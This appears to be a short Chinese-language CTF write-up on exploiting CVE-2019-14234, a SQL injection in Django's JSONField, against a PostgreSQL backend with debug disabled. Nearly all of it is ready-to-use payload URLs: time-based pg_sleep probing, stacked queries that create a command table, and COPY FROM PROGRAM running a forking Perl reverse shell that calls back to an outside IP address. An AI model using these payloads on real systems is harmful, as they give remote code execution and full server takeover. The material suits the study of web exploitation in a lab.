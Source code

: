 # Writeup

难点：

1. 关闭debug下JSONField利用 （30分钟）

2. postgres Copy From 的利用
   1. postgres不同版本下的转义（15分钟）
   2. postgres copy from方式执行反弹shell需要fork（20分钟）









CVE-2019-14234 Django JSONField SQL注入

关闭debug，需要用延时来判断注入点，debug为false的JSONField SQL注入网上并没有几篇文章讲黑盒情况下如何利用

```
http://127.0.0.1:8000/app/details?profile__username%27)%3d%271%27+or+1%3d1+%3bSELECT+CASE+WHEN+1%3E2+THEN+%27a%27+ELSE+pg_sleep(1)+END--+
```

postgres9.6-11.2版本之间的 COPY FROM来getshell

不能直接反弹shell，需要fork一个子进程，需要注意postgres在高版本下的转义方式

DROP TABLE IF EXISTS cmd_exec;

```
http://192.168.137.249:8000/app/details?profile__username')%3d'1'+or+1%3d1+%3bDROP+TABLE+IF+EXISTS+cmd_exec%3b--+--+
```

CREATE TABLE cmd_exec(cmd_output text);

```
http://192.168.137.249:8000/app/details?profile__username%27)%3d'1'+or+1%3d1+%3bCREATE+TABLE+cmd_exec(cmd_output+text)%3b--+--+
```

postgres在9版本以后不能直接转义，要加E

```
Copy cmd_exec From Program E'perl -e \'$p=fork;exit,if($p);use Socket;$i="39.108.82.21";$p=8888;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};\'';
```



```
http://127.0.0.1:8000/app/details?profile__username%27)%3d%271%27+or+1%3d1+%3bCopy%20cmd_exec%20From%20Program%20E%27perl%20-e%20%5C%27%24p%3Dfork%3Bexit%2Cif(%24p)%3Buse%20Socket%3B%24i%3D%2239.108.82.21%22%3B%24p%3D8888%3Bsocket(S%2CPF_INET%2CSOCK_STREAM%2Cgetprotobyname(%22tcp%22))%3Bif(connect(S%2Csockaddr_in(%24p%2Cinet_aton(%24i))))%7Bopen(STDIN%2C%22%3E%26S%22)%3Bopen(STDOUT%2C%22%3E%26S%22)%3Bopen(STDERR%2C%22%3E%26S%22)%3Bexec(%22%2Fbin%2Fsh%20-i%22)%3B%7D%3B%5C%27%27%3B--+--+
```

